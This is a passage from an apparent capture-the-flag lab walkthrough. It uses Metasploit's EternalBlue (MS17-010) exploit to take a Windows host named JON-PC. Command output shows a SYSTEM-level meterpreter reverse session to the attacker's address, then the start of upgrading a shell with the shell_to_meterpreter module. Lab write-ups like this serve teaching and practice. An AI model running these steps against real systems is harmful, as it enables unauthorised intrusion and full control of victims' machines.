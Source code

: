 5. Confirm that the exploit has run correctly. You may have to press enter for the DOS shell to appear. Background this shell (CTRL + Z). 

**Output**

```bash
msf5 exploit(windows/smb/ms17_010_eternalblue) > sessions

Active sessions
===============

Id  Name  Type                     Information                   Connection
--  ----  ----                     -----------                   ----------
1         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC  10.2.44.183:9999 -> 10.10.190.61:49169 (10.10.190.61)

```
\
We see our session is in background.

## PRIVESC

1. We are going to create a msf shell from the shell we have got. This will give us additional functionality to dig around the box. We use the one found here and set the `Session` to the open session we have.

**Output**

```bash
msf5 exploit(windows/smb/ms17_010_eternalblue) > search shell_to_meterpreter

Matching Modules
================

#  Name                                    Disclosure Date  Rank    Check  Description
-  ----                                    ---------------  ----    -----  -----------
0  post/multi/manage/shell_to_meterpreter                   normal  No     Shell to Meterpreter Upgrade

msf5 post(multi/manage/shell_to_meterpreter) > options

Module options (post/multi/manage/shell_to_meterpreter):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   HANDLER  true             yes       Start an exploit/multi/handler to receive the connection
   LHOST                     no        IP of host that will receive the connection from the payload (Will try to auto detect).
   LPORT    4433             yes       Port for payload to connect to.
   SESSION                   yes       The session to run this module on.

msf5 post(multi/manage/shell_to_meterpreter) > set session 1
```
